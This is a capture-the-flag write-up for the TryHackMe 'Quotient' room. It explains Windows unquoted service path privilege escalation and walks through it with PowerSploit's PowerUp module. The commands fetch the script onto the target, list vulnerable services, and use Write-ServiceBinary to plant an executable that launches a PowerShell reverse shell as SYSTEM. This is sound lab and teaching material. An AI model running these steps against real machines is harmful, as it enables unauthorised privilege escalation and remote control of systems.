 ```yaml
---
title: Quotient - Windows Unquoted Service Path Exploitation
---
```


**Description: Exploiting a Windows unquoted service path vulnerability to escalate our privileges**
TryHackMe Quotient Without MsfVenom - https://tryhackme.com/room/quotient

This room on TryHackMe involves exploiting an [unquoted service path vulnerability](https://attack.mitre.org/techniques/T1574/009/) to escalate our privileges and read the flag located on the Administrator's desktop. 

Let's quickly go over what a unquoted service path vulnerability is and how to exploit it.

An **unquoted service path** vulnerability occurs when there's a service whose service path contains spaces and it isn't enclosed with quotation marks. This leads to Windows interpreting the file path incorrectly which can lead to Windows executing our own executable. Windows will read the service path until a space is reached, then it will append `.exe` to the end of the path & search for that binary. If it is not found, it continues to do this until the executable is found.

So for example, say our service path is `C:\Program Files\Custom Service\My Service\service.exe`

* Windows will first look into the `C:\` drive for `Program.exe`. If it finds it, it'll execute it. If it doesn't find it, it moves on to the next path.
* Windows then looks for `C:\Program Files\Custom.exe`. If it finds it, it'll execute it. If it doesn't find it, it moves on to the next path.
* Windows then looks for `C:\Program Files\Custom Service\My.exe`. If it finds it, it'll execute it. If it doesn't find it, it moves on to the next path
* Windows will finally look for `C:\Program Files\Custom Service\My Service\service.exe`

Now if the service is running with escalated privileges, such as system, then we can escalate our privileges by placing an executable in a path we have permissions to write to & specify the name of the executable that Windows will search for.

So let's say we can write to the `Custom Service` folder and we know that Windows will search for `My.exe`. We can create a file named `My.exe` & place it into `Custom Service`. If Windows doesn't find the other previous binaries, it'll find & execute ours as a privileged user.

We could manually discover any services that have service paths that contain spaces & aren't enclosed within quotation marks, or we could choose to use a tool such as [Powersploit, specifically the PowerUp module](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc).

I chose to use PowerSploit in order to better familiarize myself with the functions and their uses.

First, we must get the `PowerUp.ps1` script onto the Windows machine. Since the machine doesn't have internet access, I downloaded it onto my local machine first, then started a Python simple HTTP server by running:

`python3 -m http.server`

Then using Powershell on the Windows machine to download it from my local machine by running:

`Invoke-WebRequest -Uri http://youripaddresshere:8000/powerup.ps1 -OutFile powerup.ps1`

After it's been downloaded, we must load the script as a module so that we can call its functions directly from the PowerShell command-line. We do this by running:

`. .\powerup.ps1`

That should return no output, and now we should be able to use the functions that `PowerUp` provides!

We can test this by running `Get-UnquotedService` which will return all services that contain a space in their name & aren't enclosed with quotes:

![](https://i.imgur.com/kMyxXnK.png)

As you can see, we have a service that has been returned with the name `Development Service`. The reason that 3 different entries for this service were returned is because they have different modifiable paths.

I believe that the modifiable path details to us the permissions we have on certain sections of the path to the service. 

* *NOTE: Notice that it returned the `C:\` path as being modifiable, but In order to create files within this path, you must already have admin privileges, so this can be considered a false positive*

The modifiable path we'll be targeting is `C:\Program Files\Development Files` and we'll be dropping an executable named `Devservice.exe` within this path.

`Get-UnquotedService` also returns 2 other important pieces of data:

1. `AbuseFunction` which tells us that we can use the `Write-ServiceBinary` function to exploit the unquoted service path vulnerability
2. `CanRestart` which tells us whether or not we can manually restart the service. In this case, we can't which means we'll have to restart the machine in order to essentially restart the service

By default, if you run the `Write-ServiceBinary` function & provide the `-Name` & `-Path` arguments, it'll generate an executable & place it into the specified path. Then when the service is restarted, the executable will, by default, add the user `john` into the local admins group with a password `Password123!`

You can modify the username & password by specifying the `-UserName` & `-Password` arguments.

In this case, I chose not to add a new local user & instead execute a custom command using the `-Command` argument. The custom command I'll be executing is a Powershell reverse shell stored in a `.ps1` file. I'll be executing it by passing the `powershell.exe C:\Users\Sage\ps1liner.ps1` command to the `-Command` argument.

The full command would be:

`Write-ServiceBinary -Name "Development Service" -Path "C:\Program Files\Development Files\Devservice.exe" -Command "powershell.exe C:\Users\Sage\ps1liner.ps1"`

![](https://i.imgur.com/JgLVg4k.png)

After you've run that and the executable has been dropped in the specified path, you can start your listener & restart the machine, then wait for your connection.

After a few moments...

![](https://i.imgur.com/3PuY85S.png)

We got a privileged shell!
